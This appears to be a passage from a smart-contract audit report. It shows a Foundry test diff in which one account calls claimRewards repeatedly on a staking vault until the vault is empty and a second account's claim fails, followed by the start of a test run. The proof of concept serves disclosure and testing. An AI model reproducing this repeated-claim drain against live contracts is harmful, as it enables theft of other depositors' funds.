     +        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
    +        logAccounts();
    +
    +        console.log("depositing %s wei into the vault.\n", rewardsAmount);
    +        vm.deal(address(vault), address(vault).balance + rewardsAmount);
    +        vm.warp(block.timestamp + 3 hours);
    +        logAccounts();
    +
    +        console.log("Claiming rewards for accountOne.\n");
    +        vm.prank(accountOne);
    +        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
    +        logAccounts();
    +
    +        console.log("Claiming rewards for accountOne AGAIN.\n");
    +        vm.prank(accountOne);
    +        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
    +        logAccounts();
    +
    +        console.log("Claiming rewards for accountOne AGAIN.\n");
    +        vm.prank(accountOne);
    +        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
    +        logAccounts();
    +
    +        //console.log("Claiming rewards for accountTwo.\n");
    +        vm.prank(accountTwo);
    +        vault.claimRewards(accountTwo, getBytesArrayFromBytes(blsPubKeyFour));
    +
    +    }
    +
    +    function logAccounts() internal {
    +        console.log("accountOne previewAccumulatedETH : %i", vault.previewAccumulatedETH(accountOne, vault.lpTokenForKnot(blsPubKeyFour)));
    +        console.log("accountOne claimed               : %i", SyndicateRewardsProcessor(vault).claimed(accountOne, address(vault.lpTokenForKnot(blsPubKeyFour))));
    +        console.log("accountTwo previewAccumulatedETH : %i", vault.previewAccumulatedETH(accountTwo, vault.lpTokenForKnot(blsPubKeyFour)));
    +        console.log("accountTwo claimed               : %i", SyndicateRewardsProcessor(vault).claimed(accountTwo, address(vault.lpTokenForKnot(blsPubKeyFour))));
    +        console.log("ETH Balances: accountOne: %i, accountTwo: %i, vault: %i\n", accountOne.balance, accountTwo.balance, address(vault).balance);
    +    }
    +
     }

Note that the AccountOne repeatedly claims until the vault is empty and the claim for accountTwo fails.

Following is an output of the test script showing the balances and differnet state variables:

    forge test -vv --match testRepetitiveClaim
    [⠑] Compiling...
    No files changed, compilation skipped
    